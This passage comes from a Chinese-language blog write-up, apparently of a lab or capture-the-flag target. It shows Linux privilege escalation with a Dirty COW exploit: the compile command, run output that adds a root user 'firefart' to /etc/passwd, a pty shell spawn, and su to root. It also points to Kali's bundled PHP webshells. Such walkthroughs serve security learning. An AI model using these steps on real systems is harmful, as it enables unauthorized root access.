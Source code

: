 <p>1.c:(.text+0x527): undefined reference to `pthread_join'</p>
<p>collect2: ld returned 1 exit status</p>
<p>直接编译，出错</p>
</blockquote><p>查看exploit-db的注释，再次编译：gcc -pthread 1.c -lcrypt</p><blockquote>
<p>sh-4.1$ ./a.out</p>
<p>./a.out</p>
<p>Please enter the new password: a</p>
<p>/etc/passwd successfully backed up to /tmp/passwd.bak</p>
<p>Complete line:</p>
<p>firefart:fi2D0F2yP3cfM:0:0:pwned:/root:/bin/bash</p>
<p>mmap: 7fa0ba71d000</p>
<p>ptrace 0</p>
<p>Done! Check /etc/passwd to see if the new user was created.</p>
<p>You can log in with the username 'firefart' and the password 'a'.</p>
<p>DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd</p>
</blockquote><div class="image-package">
<img class="uploaded-img" src="http://upload-images.jianshu.io/upload_images/2883590-0fe4d69f9be2559e.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" width="auto" height="auto"><br><div class="image-caption"></div>
</div><p>遇到一个异常：stardard in must be a tty，说明需要一个终端（shell），那么尝试python反弹个bash shell</p><p>python -c 'import pty;pty.spawn("/bin/bash")'</p><p>su firefart  /  a</p><p>得到root权限。</p><div class="image-package">
<img class="uploaded-img" src="http://upload-images.jianshu.io/upload_images/2883590-c1bf3c3a35c79bca.PNG?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" width="auto" height="auto"><br><div class="image-caption"></div>
</div><h4> 总结：</h4><p>kali目录下，有不少webshell可用： /usr/share/webshells/php </p><p>shell命令学习：</p><blockquote><p>cat base64_password | tr -d '\n' &gt; decoded_password        （去除文件每一行的\n换行符）</p></blockquote><p>tr，translate的简写，主要用于压缩重复字符，删除文件中的控制字符以及进行字符转换操作。</p><p>-d：delete，删除SET1中指定的所有字符，不转换</p>
        </div>
      </div>
    </div>
  </body>
</html>
